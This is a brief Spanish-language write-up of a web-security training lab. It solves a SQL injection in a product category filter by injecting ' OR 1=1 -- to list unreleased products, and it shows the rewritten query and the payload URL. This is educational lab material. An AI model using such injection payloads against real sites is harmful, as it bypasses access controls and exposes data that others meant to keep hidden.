# 01 Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Objetivo

```bash
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.
```

## Solución

1. Modificamos el campo `category` utilizando el valor `'+OR+1=1—` De esta manera visualizaremos todos los productos
2. 

```sql
CATEGORY = "' OR 1 = 1 --"
SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1
```

https://0a54003904a64d1a80b2718e00f3007b.web-security-academy.net/filter**?category=Accesories' OR 1 = 1 --**

![image.png](01%20Lab%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%2012cfab5460ec808c80e1e739c14cc315/image.png)